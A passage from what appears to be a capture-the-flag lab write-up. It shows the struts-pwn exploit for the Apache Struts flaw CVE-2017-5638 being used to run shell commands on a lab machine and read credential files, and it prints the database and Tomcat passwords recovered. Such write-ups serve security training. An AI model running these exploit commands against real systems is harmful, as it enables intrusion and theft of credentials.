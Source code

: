 ![tomcat8 home directory](screenshots/8_tomcat8_homedir.PNG)

There is an interesting file in there called db_connect.  Let's see what is in it:
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'cat /var/lib/tomcat8/db_connect'
```

![db_connect](screenshots/9_tomcat8_dbconnect.PNG)

```
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
```

After doing some more enumeration in that directory, I stumbled across a file called tomcat-users.xml:
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'cat /var/lib/tomcat8/conf/tomcat-users.xml'
```

```xml
...
<user username="teampwner" password="cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$" roles="manager-gui,admin-gui" />
...
```
I tried to use these credentials on the manager page we found before (because the user has the manager-gui and admin-gui roles), but the credentials did not work.


[1]: https://www.scmagazine.com/apache-struts-vulnerability-likely-behind-equifax-breach-congress-launches-probes/article/687955/ "Apache Struts vulnerability likely behind Equifax breach, Congress launches probes"
[2]: https://nvd.nist.gov/vuln/detail/CVE-2017-5638 "CVE-2017-5638 Detail (National Vulnerability Database)"
[3]: https://nvd.nist.gov/vuln/detail/CVE-2017-9805 "CVE-2017-9805 Detail (National Vulnerability Database)"
[4]: https://nmap.org/nsedoc/scripts/http-vuln-cve2017-5638.html "http-vuln-cve2017-5638 NSE Script"
[5]: https://github.com/mazen160/struts-pwn "struts-pwn"